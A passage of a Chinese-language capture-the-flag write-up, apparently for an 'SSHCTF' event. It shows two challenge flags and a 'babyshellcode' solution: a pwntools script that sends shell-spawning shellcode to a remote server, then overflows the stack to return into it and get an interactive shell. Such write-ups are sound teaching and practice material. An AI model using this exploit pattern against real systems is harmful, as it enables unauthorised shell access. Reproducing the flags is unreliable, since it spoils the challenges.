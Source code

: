    ``` python
   ```

![last](imgs/last.png)

``` 
SSHCTF{lf_yOU_TRuly_L0Ve_heR_137_HER_Know_74aa73aa8cea}
```

### babyshellcode

1. checksec，没有保护。本地执行babyshellcode，发现需要输入两次，第一次输入shellcode，第二次提示'opportunity to get shell access'，大概是栈溢出返回到shellcode地址

2. exp，获取到shell

   ```python
   from pwn import *
   context.log_level = 'debug'
   context.binary = 'babyshellcode'
   #sh = process('./babyshellcode')
   sh = remote('210.44.150.15', 23952)
   sh.recvuntil(b'shellcode:')
   shellcode = asm(shellcraft.sh())
   sh.sendline(shellcode)
   
   addr = 0x601280
   offset = 0x10 + 8
   payload = b'a' * offset + p64(addr)
   sh.recvuntil(b'access.')
   sh.sendline(payload)
   sh.interactive()
   ```

![babyshellcode](imgs/babyshellcode.png)

``` 
SSHCTF{SHE11C0dE_HE1Ps_YOU_9E7_5HElL_cad5fe5d2704}
```

## Web
